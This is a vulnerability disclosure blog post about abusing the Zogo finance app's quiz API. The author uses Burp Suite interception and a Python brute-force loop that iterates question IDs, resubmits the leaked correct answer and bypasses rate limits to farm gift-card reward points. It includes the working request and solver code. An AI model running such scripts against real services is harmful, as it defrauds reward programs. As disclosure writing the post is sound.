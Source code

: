 ```yaml
---
title: "Zogo Zoh-no: Manufacturing pineapples with Burp Suite"
date: 2021-01-19 20:55:59 -0500
header-img: "/images/zogo-redeem.png"
---
```


[Zogo](https://zogofinance.com/) is a finanical education app that offers incentives to its users, through gift cards, for completing learning "modules". These modules are fairly broad, and cover topics such as an introduction to investing, 401ks, health insurance, and purchasing your first home.

{% include image.htmlfile ="zogo-map" alt="Some of the modules available on Zogo" %}

The incentives take the form of gift cards, and include Amazon, Apple, and other gift cards that are pretty much as good as cash.

You earn pineapples by participating in the app through various quizzes, and once you have 5000 pineapples, you can redeem a $5 gift card.

{% include image.htmlfile ="zogo-redeem" alt="5,000 pineapples can be redeemed for a $5 Amazon gift card" %}

I wanted to poke around and see what their API looked like, and if there was a quicker way to generate these pineapples

## Firing up burp suite

I used burp suite and set up the local proxy, hoping that the app wasn't using TLS stapling. There's a great jailbroken library called [SSL Kill Switch 2](https://github.com/nabla-c0d3/ssl-kill-switch2) that will bypass the native TLS stapling API on ios devices, but my current iPhone isn't jailbroken. 

I was hopeful, though, because Zogo is still a small start up and probably hasn't made network security a top priority.

I launched the app and it hit their API immediately. I started playing around and tried to map out every action you could do. Things became interesting once I tried answering one of the questions in the quiz. 

{% include image.htmlfile ="zogo-question" alt="Answer a question about HMOs" %}

As soon as I answered that question, this network request fired off:

{% include image.html file="zogo-question-req" alt="Burp suite showing the Zogo API request" %}

And the response was even better:

{% include image.html file="zogo-question-resp" alt="Burp suite showing the Zogo API response, including the valid answer" %}

Not only is there an endpoint for accepting quiz responses - it also tells you which option is correct. At this point I wanted to bring this over to python so I could play around with a bit more.

{% include image.html file="zogo-question-resp" alt="Burp suite showing the Zogo API response, including the valid answer" %}


Burp suite has a great extension called "Copy as requests". It will allow you to copy any network request as a python snippet. 

{% include image.html file="zogo-burp" %}

Copying the request to python yielded this code that I could just run.


```py
import requests

burp0_url = "https://api.zogofinance.com:443/production/v19/activity/multiple-choice"
burp0_headers = {"Content-Type": "application/json", "Origin": "ionic://localhost", "Accept-Encoding": "gzip, deflate", "Connection": "close", "Accept": "application/json, text/plain, */*", "User-Agent": "Mozilla/5.0 (iPhone; CPU iPhone OS 14_3 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Mobile/15E148", "Authorization": "Bearer <my token>", "Accept-Language": "en-us"}
burp0_json={"content_id": 101789, "is_party": False, "selected_answer_index": 0, "time_taken": 0}
requests.post(burp0_url, headers=burp0_headers, json=burp0_json)
```

This lets you quickly start playing around with the request, and poke around their API. 

## Writing a solver

I brought this over to jupyter notebook so I could figure out how to bruteforce the right answer to every question.

{% include image.html file="zogo-notebook" alt="Jupyter Notebook to play around with the request" %}

I looked at the response and wrote a small script to iterate over every question ID and try and answer it with a `selected_answer_index`. If it was correct I'd collect the pineapples and move on to the next one, and if it wasn't, I'd just grab the known correct index from the response and resubmit it. 

```py
for i in range(1000):
    burp0_json={"content_id": 100000+i, "is_party": False, "selected_answer_index": 1, "time_taken": 0}
    resp = requests.post(burp0_url, headers=burp0_headers, json=burp0_json)
    resp = resp.json()
    if 'multiple_choice' not in resp:
        pprint.pprint(resp)
        continue
    if not resp['multiple_choice']['is_correct']:
        print(f'wrong answer for {burp0_json["content_id"]}')
        burp0_json['selected_answer_index'] = resp['multiple_choice']['correct_answer_index']
        resp = requests.post(burp0_url, headers=burp0_headers, json=burp0_json).json()
    print(str(i), resp['multiple_choice']['is_correct'])
        
```

This worked immediately. Some question IDs didn't exist, which spit back an error from their API, but valid questions would just give out points.

{% include image.html file="zogo-force-running" alt="Answering every question ID correctly" %}

The great thing about this is that it bypassed the "hearts" limit in app - if you answered 5 questions incorrectly, you'd run out of hearts, and would have to wait something like 5 hours before you could use the app again. The route didn't check if you had any hearts left, though, so you could just bruteforce the entire ID space with valid answers and collect the rewards.

## Benefits

I brute forced 1000 question ids, which lead to nearly 30000 points, or $30 on amazon. Not a crazy amount of cash, but definitely an amount that would be felt on Zogo's balance books if a non trivial percent of people abused this system.

## Timeline

Vulnerability reported: 1/18/21
Vulnerability acknowledged + fix prioritized: 1/19/21

Zogo was really fast in getting back to me and acknowleding the issue, and they'll be adding in limits to the route and patching the issue. 

